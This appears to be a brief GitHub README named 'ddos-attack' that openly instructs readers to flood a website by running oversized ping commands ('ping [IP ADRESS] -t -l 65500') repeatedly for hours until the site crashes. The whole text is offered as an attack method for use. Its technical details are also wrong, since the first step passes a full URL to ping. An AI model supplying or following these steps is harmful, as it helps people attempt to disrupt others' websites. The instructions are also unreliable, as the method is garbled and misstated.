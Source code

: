 # ddos-attack
this webpage is used for ddos attacks

HOW TO LAUNCH DDOS ATTACKS???

Answer is simple. 
Open a terminal (or windows cmd).
Type:
ping https://github.com/TeeWorldsBoinG/ddos-attack/ -t
this will get you an IP Address
then type:
ping [IP ADRESS] -t -l 65500

repeat the command above a few times for a few hours, then the website should crash
